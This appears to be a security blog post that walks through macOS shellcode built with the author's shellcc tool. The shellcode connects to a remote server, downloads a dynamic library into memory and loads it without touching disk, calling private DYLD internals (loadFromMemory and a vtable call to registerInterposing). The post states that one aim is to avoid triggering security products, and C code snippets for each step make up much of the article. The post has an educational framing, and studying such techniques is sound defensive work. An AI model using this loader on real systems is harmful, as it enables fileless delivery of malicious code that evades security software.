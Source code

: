 ```yaml
---
layout: post
title: Loading from memory
draft: false
---
```


Building shellcode and playing with assembly is my idea of fun. In this article I introduce shellcode that executes to download a dynamic library from a TCP connection and loads it without ever touching the disk. On MacOS, there are several methods of doing that [1], but I would like to show another alternative which possibly requires less code to implement.

## TL;DR;

I reuse functions in DYLD that were never meant to be used externally.

## Shellcode Compiler

A while back I introduced a utility called [shellcc](https://github.com/nologic/shellcc) which is built to assist with building shellcode using a high level language like C. It is called _shellcc_ only because it constructs very compact byte code of instructions. Unfortunately, it does not really handle a lot of the important use-cases of for real shellcode construction. Use-cases such as character restrictions. As such, the tool serves another purpose really well.

I show this use-case in an introductory walk through:

<center><iframe width="420" height="315" src="https://www.youtube.com/embed/yg9svg9xE8g" frameborder="0" allowfullscreen></iframe></center>

When I started out my work on iOS, I did not know Aarch64 assembly very well. So, I needed a boon to help me bootstrap. This was the other purpose of _shellcc_ - an educational tool. I would use it to compile basic C programs in order to understand how the assembly is written to make system calls and process data. So, the tool is kind of an 80% solution that would give me template assembly that I could later play with. It also helped me with reverse engineering. Specifically to test theories about what certain blocks from IDAPro might have looked like in a high level language.

On semi-regular basis, I try to do presentations at the NYU OSIRIS lab for educational purposes. I pick a topic that I had played with recently and found useful and present in practical detail. I wanted to do this with _shellcc_ and, so, I came up with a practial example: *How to write one of the most common shellcodes? One that connects to a TCP port, downloads a dylib and loads it into the process space.* As an added challenge, I wanted to do so without touching disk (and triggering personal security products). This is what I would like to present in this blog. Of course, as I've mentioned earlier, there is more than one way.

## The Technique

The file that implements the technique is called [injectdyld.c](https://github.com/nologic/shellcc/blob/master/shellcode/injectdyld.c) and can be found in the github repository. The name is a bit misleading, but the the technique is there.

First, we connect to the port and download the library:

```c
    bzero((struct sockaddr *)&serv_addr,sizeof(serv_addr));
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_addr.s_addr = SERVER_IP;
    serv_addr.sin_port = htons(SERVER_PORT);

    // Connect to the remote host.
    if(scc_connect(sockfd,(struct sockaddr *)&serv_addr,
                   sizeof(serv_addr)) < 0) {
        // If not, clean up and bail.
        scc_exit(44);
    }

    int fileSize = receivefile(sockfd, dyld_buffer, mem_size);
```

Next, we load the dynamic loader:

```c
    int dyld_fd = scc_open("/usr/lib/dyld", O_RDONLY, 0);
    void* dyld_buf = scc_mmap(NULL, mem_size, PROT_READ, 
                              MAP_PRIVATE, dyld_fd, 0);
```

This step is a bit wasteful because the process would've likely already had the dynamic loader mapped in memory. However, we are in shell code and it is a lot easier to map the file than to find the existing location.

Then, we find the symbol `dlsym` which will help us find other symbols in the process space.

```c
    typedef void* (*dlsym_t)(void* handle, const char* symbol);
    dlsym_t dlsym = (dlsym_t)findSymbol64(dyld_buf, mem_size, 
                                          "_dlsym", 6);
```

The `findSymbol64` exists in the shellcode and it parses the Mach-O file of `dyld` to locate the function.

Then we locate the `loadFromMemory` function or, rather, a C++ class constructor.

```c
    typedef void* (*loadFromMemory_t)
       (const uint8_t* mem, uint64_t len, const char* moduleName);

    loadFromMemory_t loadFromMemory = (loadFromMemory_t)findSymbol64(
          dyld_buf, mem_size, "__ZN4dyld14loadFromMemoryEPKhyPKc", 33);

    void* image = loadFromMemory(dyld_buffer, fileSize, NULL);
```

One day, while reading the DYLD source code, I discovered the `loadFromMemory` function which is used internally to parse a memory blob. Its mangled name is [__ZN4dyld14loadFromMemoryEPKhyPKc](https://opensource.apple.com/source/dyld/dyld-353.2.1/src/dyld.cpp) and the source preamble is below. This function constructs an `ImageLoader` class object in memory to internally describe the layout and all the features that the system cares about.

```c++
ImageLoader* loadFromMemory(const uint8_t* mem, uint64_t len, 
                            const char* moduleName)
{
    // if fat wrapper, find usable sub-file
    const fat_header* memStartAsFat = (fat_header*)mem;
    uint64_t fileOffset = 0;
    uint64_t fileLength = len;
    if ( memStartAsFat->magic == OSSwapBigToHostInt32(FAT_MAGIC) ) {
        if ( fatFindBest(memStartAsFat, &fileOffset, &fileLength) ) {
            mem = &mem[fileOffset];
            len = fileLength;
```

Next is the easy part. This is where we force the loaded Mach-O file to join the process as a proper dynamic library.

```c
    typedef void (*registerInterposing)(void* _this);

    // `vtable for ImageLoaderMachOCompressed
    ((registerInterposing) (*( (*(uint8_t***)image) + 64))) (image);
```

Because we are not implementing this in C++, we don't get the nice language abstractions to class objects. So, instead we have to force an instance call. Remember, back in the day, C++ was implemented as C++ to C translator, so we know this has to be possible.

We dereference the image object to obtain the `vtable`, we then dereference again at an offset to get the function of our dreams. We cast the pointer to a function pointer and call it with the pointer to the object as the first parameter. C++ functions (when looked through the eyes of C) expect the first parameter to the `this` pointer.

The `registerInterposing` is a function that is called when we inject libraries into the process by using the environment variable (i.e. `DYLD_INSERT_LIBRARIES`). Using this private interface activates the internal workings of DYLD to load libraries properly to be used by the rest of the process.

```c
    foo_t foo = dlsym(RTLD_DEFAULT, "foo");

    // call the desired procedure.
    int ret = foo();
```

Finally, we execute our library function to kick off the maliciously injected code.

## Conclusion
Using functions `loadFromMemory` and `registerInterposing` seems simple but it was not obvious without a fairly in-depth analysis of DYLD. This method is useful when the alternatives might not be applicable.


---
[1] Objective-C runtime method (https://s3.amazonaws.com/s3.synack.com/infiltrate.pdf slide 29)







